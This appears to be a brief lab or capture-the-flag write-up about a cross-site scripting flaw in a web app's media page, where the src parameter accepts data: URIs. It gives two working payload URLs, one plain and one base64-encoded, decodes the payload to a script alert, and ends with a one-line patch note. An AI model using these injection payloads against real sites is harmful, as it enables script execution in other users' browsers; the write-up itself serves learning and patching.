 🚨 **EXPLOIT**

The application allows injecting base64-encoded HTML/JavaScript through the src parameter:

`http://192.168.38.130/index.php?page=media&src=data:text/html,<script>alert('1');</script>`
`http://192.168.38.130/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=`

https://base64.guru/converter

Decoded payload:

```html
<script>
  alert("xss");
</script>
```

This base64 content is injected inside an HTML element like:

```html
<object data=""></object>
```

allowing execution of arbitrary JavaScript and leading to XSS (Cross-Site Scripting).

---

✅ **PATCH**

Sanitize HTML to prevent XSS injection
